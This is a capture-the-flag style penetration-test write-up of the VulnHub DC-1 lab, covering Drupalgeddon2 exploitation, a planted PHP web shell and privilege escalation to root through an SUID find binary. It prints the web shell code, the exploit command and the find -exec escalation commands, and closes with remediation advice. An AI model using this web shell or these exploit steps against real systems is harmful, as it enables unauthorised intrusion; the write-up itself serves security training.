






9# DC-1 (VulnHub) — Penetration Test Report

**Date:** November 17, 2026  
**Author:** Pawnfs  
**Target:** DC-1 (VulnHub Lab Environment)  
**Difficulty:** Beginner  

---

## Overview

DC-1 is a beginner-level virtual machine from VulnHub, designed for practicing basic penetration testing skills. This report documents the complete compromise cycle: from host discovery in the lab network to obtaining root privileges.

**Attack Chain:** Network reconnaissance → Port scanning → Drupal 7 identification → Drupalgeddon2 exploitation (CVE-2018-7600) → www-data shell → Filesystem enumeration → SUID privilege escalation via `find` → root

**Target IP:** 192.168.147.XXX (isolated VMware lab network; last octet hidden)

---

## Reconnaissance

### Host Discovery

```bash
sudo arp-scan -l
```

Discovered target machine on the lab subnet — IP `192.168.147.XXX`.



### Port and Service Scanning

```bash
nmap -T4 -sC -sV -O -A --script http-enum 192.168.147.XXX
```

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 6.0p1 Debian 4+deb7u7 |
| 80/tcp | http | Apache httpd 2.2.22 (Debian) |
| 111/tcp | rpcbind | RPC #100000 |

The `http-enum` script detected characteristic Drupal files (`/INSTALL.txt`, `/UPGRADE.txt`, `/CHANGELOG.txt`, `/README.txt`) — web application identified as **Drupal 7**.



---

## Initial Access

### Vulnerability Identification

The landing page confirmed Drupal installation (login form, footer "Powered by Drupal"). Drupal 7 is vulnerable to critical RCE **Drupalgeddon2 (CVE-2018-7600)** in Form API (SA-CORE-2018-002).

### Exploitation

Found public exploit in the `dreadlocked/Drupalgeddon2` repository on GitHub (`drupalgeddon2.rb` script).

```bash
ruby drupalgeddon2.rb 192.168.147.XXX
```

The exploit confirmed arbitrary code execution and wrote a web shell to the site root (`shell.php`):

```php
<?php if( isset($_REQUEST['c']) ){ system($_REQUEST['c'].' 2>&1'); }
```

Access confirmed via web shell:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



---

## Post-Exploitation

Through the exploit's interactive mode (HTTP requests to `shell.php`), filesystem reconnaissance was conducted. DC-1 flags contain text hints for next steps:

| Flag | Location | Hint |
|------|----------|------|
| flag1 | `/var/www/flag1.txt` | "Every good CMS needs a config file — and so do you" (points to `sites/default/settings.php`) |

The file `sites/default/settings.php` reveals Drupal database connection credentials in plaintext — user `dbuser`, password `R0ck3t`. While these credentials would allow direct access to the MySQL backend and extraction of the `users` table (containing admin password hashes), a more direct privilege escalation path was identified, so database access was not required to complete the compromise.

---

## Privilege Escalation

### SUID Binary Discovery

```bash
find / -perm -4000 -type f
```

The list revealed a non-standard SUID bit on `/usr/bin/find` (`-rwsr-xr-x`) — a known privilege escalation vector (see GTFOBins).



### SUID find Exploitation

Direct execution of `find . -exec /bin/sh -p \; -quit` did not yield an interactive session: the web shell executes each command via a separate HTTP request through `system()`, without an attached TTY, so `/bin/sh` terminated instantly without visible output.

**Solution:** Use `find`'s elevated privileges to directly read protected files, without spawning an interactive shell:

```bash
# Verify root execution
find . -exec "whoami" \; -quit
# Output: root

# Read all flags
find / -name "flag*.txt" -exec echo "=== {} ===" \; -exec /bin/cat {} \;
```

Since `find` runs with effective UID 0, traversal of the `/root` directory and reading `thefinalflag.txt` succeeds, even though `www-data` has no direct access to this directory. This confirms full system compromise.




---

## Flags Collected

| Flag | Location | Method |
|------|----------|--------|
| flag1 | `/var/www/flag1.txt` | Web shell, filesystem reading |
| flag2 | `sites/default/settings.php` | Database credentials from Drupal configuration |
| flag3 | Drupal database, `users` table | Administrator password hash (discovered, not extracted) |
| flag4 | `/home/flag4/flag4.txt` | Web shell, filesystem reading |
| flag5 (final) | `/root/thefinalflag.txt` | Privilege escalation via SUID `find` |

---

## Findings Summary

| # | Finding | Severity | CVSS 3.1 |
|---|---------|----------|----------|
| 1 | Drupal 7 RCE — Drupalgeddon2 (CVE-2018-7600) | Critical | 9.8 |
| 2 | Database credentials in plaintext in `settings.php` | High | 7.5 |
| 3 | Weak database account password | Medium | 5.3 |
| 4 | Insecure SUID bit on `/usr/bin/find` | Critical | 9.1 |
| 5 | Excessive open services (rpcbind) | Low | 4.3 |

---

## Conclusions and Recommendations

1. **Update Drupal** to version ≥7.58 or apply official patch SA-CORE-2018-002.
2. **Remove unnecessary SUID bit** from `/usr/bin/find` (`chmod u-s /usr/bin/find`) — it is not required for normal operation.
3. **Store database credentials outside web-accessible directories** (environment variables, secret manager).
4. **Disable unused network services** (rpcbind on 111/tcp).
5. **Implement monitoring** for changes in the web root to detect uploaded web shells early.

---

## Tools Used

- `arp-scan`, `nmap` (network reconnaissance and port scanning)
- `drupalgeddon2.rb` (public exploit from GitHub: dreadlocked/Drupalgeddon2)
- `find` (SUID binary discovery and privilege escalation)

---

## Disclaimer

This report was prepared exclusively for educational purposes as part of independent practice on the DC-1 machine (VulnHub) — an isolated lab environment created specifically for penetration testing skill development. The target's IP address is partially hidden. The described techniques must not be applied to systems without explicit written permission from the owner.
